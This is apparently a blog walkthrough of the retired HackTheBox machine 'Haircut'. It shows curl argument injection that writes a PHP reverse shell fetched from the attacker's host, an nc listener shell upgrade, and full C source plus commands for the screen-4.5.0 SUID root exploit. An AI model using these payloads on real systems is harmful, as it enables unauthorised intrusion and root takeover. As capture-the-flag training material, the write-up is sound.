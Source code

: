 ```yaml
---
title: Haircut - HackTheBox Walkthrough
date: 2021-11-08 12:00:00 
categories: [HackTheBox,Linux]
tags: [curl,suid]
img_path: /assets/img/HTB/Haircut/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Haircut` a retired linux machine from HackTheBox rated medium. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.
```console
$cat nmap-scan
# Nmap 7.91 scan initiated Wed Nov  3 21:23:26 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.249.10
Nmap scan report for 10.129.249.10
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  3 21:23:59 2021 -- 1 IP address (1 host up) scanned in 32.31 seconds
```
There only two ports open: `22:ssh`, `80:http`.
## HTTP Enumeration
Looks like a normal webpage, let's try bruteforcing the directories looking for anything interesting.
```console
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.249.10/ -t 100 -x txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.249.10/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/11/03 21:40:05 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 194] [--> http://10.129.249.10/uploads/]
/exposed.php          (Status: 200) [Size: 446]

===============================================================
2021/11/03 21:43:12 Finished
===============================================================
```

`/uploads` returns a 403 forbidden and on `exposed.php` has a place to enter a URL, after testing some urls seems that the page is using `curl` command

![01-web](01-web.png)
# Initial Foothold
I tried inject commands using:
- http://localhost/test.html \| id
- http://localhost/test.html ; id
- http://localhost/test.html ; $(id)

That's when I remembered about `-o` curl argument that allows write the output into a specific file.
Copy a reverse shell and change the ip and the listener port.
```console
$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
Create a Python HTTP Server and then submit: `http://10.10.14.108/shell.php -o /var/www/html/uploads/shell.php` to save the output inside `/uploads` directory.

Visit `http://10.129.249.10/uploads/shell.php` and recieve a reverse shell on your listener port.

![02-shell](02-shell.png)

Upgrade the shell to a TTY Shell:

```console
$script /dev/null -c bash
$^Z
$nc -nlvp 443
$stty raw -echo; fg
$
$export TERM=xterm
$export SHELL=bash
$stty rows 53 columns 190
```
# Privilage Escalation
Seems `screen-4.5.0` has SUID permissions and is vulnerable to a [Local Privilege Escalation](https://www.exploit-db.com/exploits/41154) .

![03-suid](03-suid.png)

When I tried to run the exploit, it showed some errors. That's why I decided to compile both C programs on my kali machine.

The first script with the name of `libhax.c`:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
![04-c](04-c.png)

And the second with the name of `rootshell.c`:
```c
#include <stdio.h>
#include <stdlib.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    system("/bin/sh", NULL, NULL);
}
```
![05-c](05-c.png)

After compile both programs create a python HTTP Server and transfer both files to the victim machine.
```
wget http://10.10.14.108/libhax.so
wget http://10.10.14.108/rootshell
```
Then execute the next commands:
```console
$ cd /etc
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ screen -ls
$ /tmp/rootshell
```
Now we are root and we can read root.txt

![06-root](06-root.png)

That’s it for now guys. Until next time.

